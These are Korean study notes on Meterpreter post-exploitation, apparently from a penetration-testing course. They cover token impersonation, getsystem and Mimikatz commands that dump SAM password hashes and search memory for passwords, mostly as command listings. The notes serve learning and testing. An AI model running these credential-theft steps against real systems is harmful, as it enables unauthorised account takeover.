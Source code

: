 첫번째로 해야 할 일은 이 시스템에 유용한 토큰이 있는지 확인하기 위하여해 토큰들을 나열하는 것이다. 

```jsx
> list_tokens
> list_tokens -u
```

그리고 administrator을 흉내내고 현재 유저 아이디를 확인한다.

```jsx
> impersonate_token USER-K3AEH9K6N\\User1 //중간에 백슬래쉬를 하나 더 넣어준다!
> getuid
```

쉘을 열어 우리가 누군지 확인한다.

```jsx
meterpreter> shell
system32> whoami //이 커맨드는 작동하지 않을 것이다. 그러므로 echo를 사용한다.
> echo %USERDOMAIN%/%USERNAME%
```

우리는 user라는 것을 확인할 수 있다. 

Ctrl+C를 눌러 shell을 종료해준다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/309c3368-8e64-4e96-b35a-2e61eadfd994/Screenshot_2020-07-20_02-40-09.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/309c3368-8e64-4e96-b35a-2e61eadfd994/Screenshot_2020-07-20_02-40-09.png)

다시 시스템 유저로 진입한 후 현재 우리가 무엇인지 확인한다.

```jsx
meterpreter> rev2self
> getuid //우리가 시스템 유저라는 것을 확인할 수 있다.
> shell
system32> echo %USERDOMAIN%/%USERNAME%
```

## 2) Meterpreter Mimikatz Extension

: 공격자들이 주로 사용하는 몇가지 유용한 태스크들을 몇가지 묶어놓은 툴. Metasploit에는 Mimikatz가 meterpreter script로 포함되어 있다.

마찬가지로 meterpreter shell을 얻은 후에 진행한다.

Mimikatz가 제대로 동작하려면 세션은 항상 시스템 레벨 권한에서 에서 실행되고 있어야 한다!

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dde8ca61-b906-4310-bcb9-ee72ab6079bb/Screenshot_2020-07-20_02-47-50.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dde8ca61-b906-4310-bcb9-ee72ab6079bb/Screenshot_2020-07-20_02-47-50.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7df2b76b-2e08-4229-8040-a474fbb62def/Screenshot_2020-07-20_02-49-10.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7df2b76b-2e08-4229-8040-a474fbb62def/Screenshot_2020-07-20_02-49-10.png)

```jsx
meterpeter> getuid //user 확인
> getsystem //system user가 아니라면 입력
> load mimikatz 
> help mimikatz //mimikatz의 built-in 커맨드 확인
```

'mimikats_command'는 Mimikatz의 모든 요소에 액세스 할 수 있게 해준다.

```jsx
> mimikatz_command -f abc:: //abc는 아무 의미 없는 말.
> mimikatz_command -f samdump::
> mimikatz_command -f samdump::hashes //해쉬 추출
> mimikatz_command -f sekurlsa:: //패스워드 관련
> mimikatz_command -f sekurlsa::searchPasswords
```
